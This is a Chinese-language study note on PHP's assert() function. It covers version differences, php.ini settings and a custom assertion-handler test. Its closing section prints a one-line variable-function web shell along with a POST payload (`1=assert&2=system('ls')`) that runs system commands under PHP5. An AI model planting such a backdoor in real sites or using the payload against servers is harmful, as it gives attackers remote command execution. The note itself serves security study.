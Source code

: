 # assert

## assert

### 参考

- https://www.anquanke.com/post/id/173201#h2-1

### 函数构造

```php
PHP5：
assert ( mixed $assertion [, string $description ] ) : bool
    
PHP7：
assert ( mixed $assertion [, Throwable $exception ] ) : bool
```

#### 更新日志

- PHP >= 5.4.8，description 可作为第四个参数提供给 ASSERT_CALLBACK 模式里的回调函数
- 在 PHP 5 中，参数 assertion 必须是可执行的字符串，或者运行结果为布尔值的表达式
- 在 PHP 7 中，参数 assertion 可以是任意表达式，并用其运算结果作为断言的依据
- 在 PHP 7 中，参数 exception 可以是个 [Throwable](https://www.php.net/manual/en/class.throwable.php) 对象，用于捕获表达式运行错误或断言结果为失败。(当然 [assert.exception](https://www.php.net/manual/zh/info.configuration.php#ini.assert.exception) 需开启)
- PHP >= 7.0.0，支持 `zend.assertions`、`assert.exception` 相关配置及其特性
- PHP >= 7.2 版本开始，参数 assertion 不再支持字符串

PHP7增加了断言的Expectations，提供了灵活的调试策略。另外提供了两组php.ini的配置。

| Directive                                                    | Default value | Possible values                                              |
| :----------------------------------------------------------- | :------------ | :----------------------------------------------------------- |
| [zend.assertions](https://www.php.net/manual/zh/ini.core.php#ini.zend.assertions) | *1*           | *1*: generate and execute code (development mode) *0*: generate code but jump around it at runtime               *-1*: do not generate code (production mode) |
| [assert.exception](https://www.php.net/manual/zh/info.configuration.php#ini.assert.exception) | *0*           | *1*: throw when the assertion fails, either by throwing the object provided as the `exception` or by throwing a new **AssertionError** object if `exception` wasn't provided                                              *0*: use or generate a **Throwable** as described above, but only generate a warning based on that object rather than throwing it (compatible with PHP 5 behaviour) |



### 自定义断言异常处理函数

#### 测试

测试代码

```php
<?php
// 激活断言，并设置它为 quiet
assert_options(ASSERT_ACTIVE, 1);
assert_options(ASSERT_WARNING, 0);
assert_options(ASSERT_QUIET_EVAL, 1);

//创建处理函数
function my_assert_handler($file, $line, $code)
{
    echo "<hr>Assertion Failed:
        File '$file'<br />
        Line '$line'<br />
        Code '$code'<br /><hr />";
}

// 设置回调函数
assert_options(ASSERT_CALLBACK, 'my_assert_handler');

// 让一则断言失败
$asse=2<1;
assert($asse);
?>
```

上述代码运行结果如下：

```txt
<hr>Assertion Failed:
        File 'C:\Users\j7ur8\Desktop\test2.php'<br />
        Line '21'<br />
        Code ''<br /><hr />
```



PHP7.2弃用将一个字符串参数当作assert()的参数。

![](../images/19-7-22_PHP_assert_自定义断言异常处理函数_1.png)

### 可变函数后门

#### 测试

```php
<?php
$_POST['1']($_POST['2']
```

PHP5可传入`1=assert&2=system('ls')`来执行命令。PHP7中assert变成了一种语言结构，而不是一个函数。

> 可变函数不能用于例如 [echo](http://php.net/manual/zh/function.echo.php)，[print](http://php.net/manual/zh/function.print.php)，[unset()](http://php.net/manual/zh/function.unset.php)，[isset()](http://php.net/manual/zh/function.isset.php)，[empty()](http://php.net/manual/zh/function.empty.php)，[include](http://php.net/manual/zh/function.include.php)，[require](http://php.net/manual/zh/function.require.php) 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。

